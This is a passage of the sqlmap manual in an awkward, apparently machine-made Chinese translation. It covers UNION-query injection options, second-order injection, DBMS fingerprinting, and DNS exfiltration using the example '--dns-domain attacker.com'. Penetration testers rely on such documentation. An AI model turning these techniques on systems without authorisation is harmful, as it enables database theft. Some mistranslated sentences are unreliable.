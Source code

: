 默认情况下,sqlmap会使用1到10列来检测UNION查询SQL资料隐码技术.然而,这一范围可以被增加到50列通过提供一个更高级别的值.详情请参阅相关段落. 

您可以手动告诉sqlmap以特定范围的列来测试这种类型的SQL注入，通过提供该选项的工具—联合-cols，然后是一系列的整数。
例如，12-16意味着使用12到16列的联合查询SQL注入测试. 

### 用于测试联合查询SQL注入的字符

选项: `--union-char`

默认情况下,sqlmap会使用`NULL`字符来测试UNION查询SQL资料隐码技术.然而,通过提供一个更高级别的值,sqlmap将使用随机数进行测试,因为在某些临界情况下,UNION查询随着 `NULL` 的失败而测试.而使用一个随机整数则会成功.

你可以通过手动告诉sqlmap来测试这种类型的有一个特定的字符的SQL资料隐码,通过使用有期望字符值（e.g. `--union-char 123`）的选项`--union-char`.

### 联合查询SQL注入中使用的表

选项: `--union-from`

在一些UNION查询SQL资料隐码案例中,有必要在`FROM`子句中强制使用有效并且可访问的表名.例如,Microsoft Access需要使用这样的列表.如果不提供一个UNION查询,SQL资料隐码将不能正常运行（e.g. `--union-from=users`）.

### DNS漏出攻击

选项: `--dns-domain`

在论文 [Data Retrieval over DNS in SQL Injection Attacks](http://arxiv.org/pdf/1303.3047.pdf)中描述了DNS ex过滤SQL注入攻击, 在sqlmap中显示它的实现的方法可以在幻灯片 [DNS exfiltration using sqlmap](http://www.slideshare.net/stamparm/dns-exfiltration-using-sqlmap-13163281)中找到.

如果用户正在控制一个注册为DNS domain server (e.g. domain `attacker.com`)的机器，他可以通过此选项 (e.g. `--dns-domain attacker.com`)打开攻击.它工作的先决条件是运行一个`Administrator` 特权 (usage of privileged port `53`)的sqlmap.并且一个寻常的 (blind)技术可以用于开发.这次攻击的唯一目标是加速数据检索的过程以防至少有一种技术被识别（最好的情况是基于时间的blind）.如果出现error-based blind 或 UNION查询技术，那么它将被跳过，因为它们是默认引用的.. 

### 二阶攻击

选项: `--second-order`

二阶SQL资料隐码攻击是一种在一个脆弱页面上的注入有效载荷的结果被显示(reflected) 在另一个(e.g. frame)上. 通常情况下是因为数据库存储的用户在原始的脆弱页面上提供了输入.

你可以通过使用有着显示结果的URL地址页面的选项`--second-order`来手动告诉sqlmap去测试这种类型的SQL资料隐码n.

## Fingerprint

### 广泛的数据库管理系统 fingerprint

Switches: `-f` or `--fingerprint`

通过拖欠网络应用层的后端数据库管理系统fingerprint被sqlmap自动处理。就在检测阶段结束以后并且用户最终被提示以再进一步选择使用哪一个易受攻击的参数, sqlmap fingerprints 这个后端数据库管理系统并且继续通过了解使用哪一个SQL语法，特殊语言和查询这一注入来继续在数据库架构的范围之内进行攻击。

如果在任何情况下你想要执行一个广泛的基于各种技术例如特定的SQL语言和inband错误的信息的数据库管理系统fingerprint, 你可以 provide the switch `--fingerprint`. sqlmap 将会执行更多的请求并且 fingerprint 准确的 DBMS 版本并且在可能的情况下操作系统，结构和插线等级。 

如果你想要 fingerprint 得到更加精准的结果, 你也可以 provide the switch `-b` or `--banner`. 

## 枚举
